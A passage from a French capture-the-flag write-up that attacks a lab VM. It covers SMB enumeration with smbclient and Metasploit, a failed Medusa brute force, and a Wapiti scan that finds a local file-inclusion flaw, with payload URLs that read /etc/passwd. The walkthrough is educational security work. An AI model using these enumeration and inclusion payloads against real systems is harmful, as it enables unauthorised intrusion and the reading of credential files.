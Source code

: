 On tente d’accéder au partage via une connexion anonyme mais l'accès est refusé :  

```plain
$ smbclient -I 192.168.1.27 -U "" -N //UBUNTUVM/home
Domain=[MSHOME] OS=[Unix] Server=[Samba 3.0.26a]
tree connect failed: NT_STATUS_ACCESS_DENIED
```

*Metasploit* propose divers exploits pour *Samba* (*lsa\_transnames\_heap, chain\_reply, setinfopolicy\_heap*) mais aucun ne nous ouvre de porte.  

En revanche le module pour énumérer les utilisateurs donne de bons résultats.  

```plain
msf auxiliary(smb_enumusers) > set RHOSTS 192.168.1.27
RHOSTS => 192.168.1.27
msf auxiliary(smb_enumusers) > exploit

[*] 192.168.1.27 UBUNTUVM [ games, nobody, proxy, syslog, www-data, root, news, bin, mail, dhcp, daemon, sshd,
    man, lp, mysql, gnats, backup, sys, klog, vmware, list, irc, sync, uucp ] ( LockoutTries=0 PasswordMin=5 )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

On profite de ces informations pour brute-forcer les comptes SMB avec *Medusa* mais force est de constater que les mots de passe résistent.  

On décide alors de se tourner vers le site web qui est tout aussi minimaliste que celui vu dans le cadre [du CTF VulnImage](http://devloop.users.sourceforge.net/index.php?article80/solution-du-ctf-vulnimage).  

L'index à la racine du site effectue une redirection via javascript sur laquelle *Wapiti* bute. Il suffit d'utiliser l'option -s pour lui donner un point de départ supplémentaire (output réduit) :  

```plain
./bin/wapiti http://192.168.1.27/ -s "http://192.168.1.27/index1.php?help=true&connect=true" -m "all,nikto,backup,htaccess"

[+] Lancement du module file
Eventuelle faille de type include() dans http://192.168.1.27/index1.php via une injection dans le paramètre connect
  Evil url: http://192.168.1.27/index1.php?help=true&connect=http%3A%2F%2Fwww.google.fr%2F%3F
Divulgation de fichiers sur un système Linux dans http://192.168.1.27/index1.php via une injection dans le paramètre connect
  Evil url: http://192.168.1.27/index1.php?help=true&connect=%2Fetc%2Fpasswd
```

man include
-----------

*Wapiti* a facilement trouvé une faille include() locale dans le paramètre *connect* de *index1.php*.  

L'inclusion donne malheureusement du fil à retordre. Effectivement on peut inclure des fichiers locaux en spécifiant le path absolu ou relatif mais il semble impossible d'élever cette faille en une exécution de commande.  
